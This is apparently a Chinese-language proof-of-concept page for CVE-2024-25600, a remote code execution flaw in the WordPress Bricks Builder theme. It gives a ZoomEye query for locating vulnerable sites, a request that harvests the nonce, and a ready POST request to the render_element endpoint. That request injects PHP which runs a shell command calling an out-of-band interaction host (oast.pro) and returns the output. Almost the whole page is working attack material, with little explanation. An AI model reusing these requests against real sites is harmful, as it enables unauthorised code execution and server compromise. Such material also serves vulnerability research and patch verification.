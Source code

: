 ## WordPress插件Bricks Builder存在RCE漏洞(CVE-2024-25600)

## zoomeye
```
web.body="/wp-content/themes/bricks/"
```

## poc

### 获取nonce值
```
GET / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:96.0) Gecko/20100101 Firefox/96.0
Connection: close
Accept-Encoding: gzip, deflate
```
![f8692e900e34adeb6f8b23677258b8e1](https://github.com/wy876/POC/assets/139549762/656552ce-28a6-407a-b746-56bd36ea3eb0)

### rce
```
POST /wp-json/bricks/v1/render_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:58.0) Gecko/20100101 Firefox/58.0
Connection: close
Content-Length: 401
Content-Type: application/json
Accept-Encoding: gzip, deflate

{
  "postId": "1",
  "nonce": "c5b5949**",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "true",
      "query": {
        "useQueryEditor": true,
        "queryEditor": "ob_start();echo `curl cnc4ej5blq62an78ck6giyhcffmdr5t56.oast.pro`;$output=ob_get_contents();ob_end_clean();throw new Exception($output);",
        "objectType": "post"
      }
    }
  }
}
```
![78880674cd49cefc6d5787c30efaf8cd](https://github.com/wy876/POC/assets/139549762/986bebf0-4369-462b-923c-775434318338)

## 漏洞分析
- https://xz.aliyun.com/t/13833
